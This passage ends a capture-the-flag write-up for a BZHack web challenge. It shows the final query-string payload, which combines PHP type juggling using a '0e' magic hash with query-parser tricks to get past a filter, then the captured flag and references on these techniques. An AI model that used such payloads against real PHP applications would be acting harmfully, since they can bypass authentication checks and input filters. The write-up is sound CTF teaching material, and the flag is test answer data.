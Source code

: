 So we have `variable3=0e00000000000000000000081614617300000000`.

### Flag

Finally, our payload looks like this:

```
/?&variable=cchallengefoxhchallengefoxachallengefoxlchallengefoxlchallengefoxechallengefoxnchallengefoxgchallengefoxechallengefoxfchallengefoxochallengefoxx&challenge.fox=a&variable2=Oq9wqi64&variable3=0e00000000000000000000081614617300000000
```

![2](/images/bzhack/flag-fox.png)


> 🚩 `ESD{ChallengeFox486217935}`

Thanks for reading !

### References

- <a href="https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf" target="_blank">PHP Magic Tricks: Type Juggling</a>
- <a href="https://github.com/spaze/hashes/tree/master" target="_blank">Magic Hashes - PHP Hash Collisions</a>
- <a href="https://www.secjuice.com/abusing-php-query-string-parser-bypass-ids-ips-waf/" target="_blank">Secjuice - Abusing PHP query string parser to bypass IDS, IPS, and WAF</a>

### Mentions

Special mentions to:

- <a href="https://www.bzhack.bzh/" target="_blank">BZHack</a>
- <a href="https://esdacademy.eu" target="_blank">ESD Academy</a>
- <a href="https://yogosha.com/" target="_blank">Yogosha</a>
- <a href="https://www.synoptik-labs.com/" target="_blank">Synoptik Labs</a>
